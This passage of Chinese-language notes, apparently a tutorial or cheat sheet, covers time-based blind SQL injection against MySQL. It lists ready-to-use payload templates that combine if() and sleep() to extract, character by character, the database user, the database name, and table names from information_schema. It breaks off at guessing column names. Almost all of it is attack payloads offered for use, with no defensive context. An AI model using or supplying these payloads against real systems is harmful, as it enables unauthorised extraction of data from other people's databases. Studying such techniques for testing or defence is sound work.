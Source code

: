 1. 多重括号写法，保证**最内层的查询语句最优先执行**
2. 括号加在select后要查询的字段名之外——这种写法的语句结构更清晰

##### 注意if()、sleep()联用时的两种写法

1. if()套sleep()：if(条件,sleep(5),0)
2. sleep()套if()：sleep(if(条件,5,0))

##### 猜解当前数据库用户名

第一步：猜解用户名的长度。(猜解到的用户名长度用于下面的逐位猜解用户名)

```sql
and if((select length(user()))=长度,sleep(5),0)
```

第二步：逐位猜解用户名。

```sql
and if((select ascii(substr(user(),位数,1))=ascii码),sleep(5),0)
```

##### 猜解当前数据库名

第一步：猜解数据库名的长度。

```sql
and if((select length(database()))=长度,sleep(5),0)
```

第二步：猜解数据库名。

```sql
and if((select ascii(substr(database(),位数,1))=ascii码),sleep(5),0)
```

##### 猜表名

第一步：判断表名的数量 (以便逐个猜表名)

```sql
and if((select count(table_name) from information_schema.tables where table_schema=database())=个数,sleep(5),0)
```

第二步：判断某个表名的长度 (以便逐位猜表名的数据)

```sql
and if((select length(table_name) from information_schema.tables where table_schema=database() limit n,1)=长度,sleep(5),0)
```

第三步：逐位猜表名**(下述有另一种多重括号写法)**

```sql
and if((select ascii(substr(table_name,位数,1)) from information_schema.tables where table_schema=database() limit n,1)=ascii码,sleep(5),0)
```

##### 猜列名

第一步：判断列名的数量 (以便逐个猜列名)
